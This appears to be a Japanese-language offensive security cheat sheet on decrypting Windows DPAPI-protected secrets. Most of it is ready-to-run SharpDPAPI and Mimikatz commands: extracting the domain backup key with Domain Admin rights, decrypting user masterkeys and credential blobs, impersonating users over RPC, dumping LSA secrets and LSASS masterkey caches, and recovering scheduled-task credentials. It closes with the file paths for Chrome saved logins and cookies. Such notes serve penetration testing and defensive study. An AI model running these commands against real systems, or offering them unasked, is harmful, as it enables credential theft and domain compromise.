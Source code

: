 ```yaml
---
title: DPAPI
category: windows
weight: -1
---
```


## DPAPI 

```
# masterkey
C:\Users\test\AppData\Roaming\Microsoft\Protect
# blob
C:\Users\test\AppData\Local\Microsoft\Credential
```

masterkeyでblobを復号するけど、masterkeyも暗号化されている。
DCに保存されているbackupkeyでmasterkeyを復号可能。


### backupkeyを使った復号 by SharpDPAPI

1. DA権限で、任意の端末から実行
    ```cmd
    SharpDPAPI.exe backupkey /server:primary.testlab.local /file:key.pvk
    ```

2. blobを指定して使用されているmastekeyを特定する。
    ```cmd
    SharpDPAPI.exe credentials /target:0B20591F2E66B04317609D770D91466D
    ```

3. backupkeyを用いてmasterkeyを復号する。
    ```cmd
    SharpDPAPI.exe masterkeys /pvk:key.pvk /target: C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-1960477253-2559852060-3892384560-1001\410dad28-58bc-4320-babd-2ee0e7a2f7d
    ```

4. 復号したmasterkeyを使ってblobを復号する。
    ```cmd
    SharpDPAPI.exe credentials /target:0B20591F2E66B04317609D770D91466D {934a40a4-947d-45c1-9cd9-1d235f652812}:D538DF23CD435B07DCBF293CB22915C487F8F797
    ```

---

### backupkeyを使わない方法 by Mimikatz
ユーザになりすましてmasterkeyを復号する方法。

1. blobを指定して使用されているmastekeyを特定する。
    ```cmd
    mimikatz # dpapi::blob /in:"<blob path>"
    ```
2. 127.0.0.1:445をDCにポートフォワード設定し、復号されたmasterkeyを取り出す。(この時多分、pass the hash等で指定したユーザに成り済ます必要がある)
    ```cmd
    mimikatz # dpapi::masterkey /in:"<masterkey path>" /protected /sid:"<target users SID>" /rpc /dc:127.0.0.1
    ``` 
3.  復号されたmasterkeyを使って、blobを復号する。
    ```cmd
    mimikatz # dpapi::blob /in:"<blob path>" /masterkey:"<decrypted master key>"
    ```

---

### ScheduledTask

Scheduled Taskの認証情報はDPAPIを使って保存されてる。  
```
# masterkey
C:\System32\Microsoft\Protect\S-1-5-18\User
1. LSASSにmasterkeyの平文がキャッシュされているものを取り出す
2. LSA Secretsに保存されているDPAPI_SYSTEMを使って復号する

# DPAPI_SYSTEM
mimikatz # lsadump::secrets /system:c:\backup\SYSTEM /security:c:\backup\SECURITY

# blob
C:\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
```

masterkeyのcacheがLSASSの中にあるので、それを取って使う。

```
mimikatz # privilege::debug
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::dpapi
```

```
C:\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
```

---

### Browser

```
# Chrome
C:\Users\[username]\AppData\Local\Google\Chrome\User Data\Local State
C:\Users\[username]\AppData\Local\Google\Chrome\User Data\Profile\Login Data
C:\Users\[username]\AppData\Local\Google\Chrome\User Data\Profile\Network\Cookies
```

